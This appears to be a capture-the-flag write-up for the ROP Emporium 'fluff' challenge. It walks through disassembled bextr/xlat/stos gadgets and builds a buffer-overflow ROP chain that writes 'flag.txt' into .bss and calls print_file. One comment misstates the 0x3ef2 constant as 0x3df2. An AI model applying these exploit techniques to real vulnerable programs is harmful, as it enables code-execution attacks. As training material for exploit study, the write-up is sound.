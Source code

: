 # fluff
Almost same as problem write4, there is a function print_file in libfluff.so, we only need set the filename such as "flag.txt" into argument, nad call the function. But the only difference is that there is no suitable gadget in fluff binary. One way is to use the gadget in libfluff.so, and another way according to the hint is to use gadget in function questionableGadgets.

Check the binary security:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE is disabled, then write data into data section is possible.

Check the function questionableGadgets:
```
0x0000000000400628 <+0>:	xlat   BYTE PTR ds:[rbx]
0x0000000000400629 <+1>:	ret    
0x000000000040062a <+2>:	pop    rdx
0x000000000040062b <+3>:	pop    rcx
0x000000000040062c <+4>:	add    rcx,0x3ef2
0x0000000000400633 <+11>:	bextr  rbx,rcx,rdx
0x0000000000400638 <+16>:	ret    
0x0000000000400639 <+17>:	stos   BYTE PTR es:[rdi],al
0x000000000040063a <+18>:	ret    
0x000000000040063b <+19>:	nop    DWORD PTR [rax+rax*1+0x0]
```
There are three gadgets in the function. Read the instructions individually. The instructions bextr, xlat and stos can be combined to write data into memory location.
```
...
0x000000000040062a <+2>:        pop    rdx
0x000000000040062b <+3>:        pop    rcx
0x000000000040062c <+4>:        add    rcx,0x3ef2
0x0000000000400633 <+11>:       bextr  rbx,rcx,rdx
0x0000000000400638 <+16>:       ret
# bextr will use rdx as control value, the low half bits are used as index, and high half bits are used as length, these index and length decide the substring copied from rcx, and then copy to rbx, which means that we can use rcx, rdx to control rbx.
...
```
```
...
0x0000000000400628 <+0>:        xlat   BYTE PTR ds:[rbx]
0x0000000000400629 <+1>:        ret
# xlat will set value in memory location [rbx+al] to al.
...
```
```
...
0x0000000000400639 <+17>:       stos   BYTE PTR es:[rdi],al
0x000000000040063a <+18>:       ret
# stos will stor al value into memory location [rdi].
...
```
Using these three gadgets, we can first control rbx value, and use rbx to set value we want to register al, and then store the al value into memory, since rdx is easily controled.

We also find some useful gadgets in binary:
```
...
0x0000000000400610 : mov eax, 0 ; pop rbp ; ret (gadget2) # reset rax(al) value
...
0x00000000004006a3 : pop rdi ; ret (gadget1) # control rdi register
...
```
Since stos instruction can only store one byte to memory, we need to move byte "flag.txt" inividually, and since rbx is used as address, we need to find a memory address, which value is 'f', or 'l'...

We find address with "flag.txt" in binary using ghidra:
```
f = 0x4005f6
l = 0x4003c1
a = 0x4003d6
g = 0x4003cf
dot = 0x40024e # '.'
t = 0x4003f1
x = 0x400246
```
We can build payload:
```
payload = 'A'*40 
payload += p64(bextr) + p64(0x20002000) + p64(f-0x3ef2)
# pop rdx value for index, and length, and pop rcx, subtract 0x3ef2 since rxc will add 0x3df2 afterward.
payload += p64(gadget2) + p64(0x0)
# reset rax(al) value
payload += p64(xlat) + p64(gadget1) + p64(bss) + p64(stos)
# xlat and set rdi value and stos the al to [rdi].
```
```
payload += p64(bextr+1) + p64(l-0x3ef2-ord('f')) + p64(xlat) + p64(gadget1) + p64(bss+1) + p64(stos)
# since rdx remain same, we set bextr gadget from pop rcx to reduce payload size, and also the al value can be reset by substracting value before, in order to reduce payload size.  
```
Same pattern for every byte in "flag.txt".
```
payload += p64(gadget1) + p64(bss) + p64(print_file)
# set "flag.txt" address in bss into rdi, and jump to print_file function.
```
Run the exploit.py, obtain the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
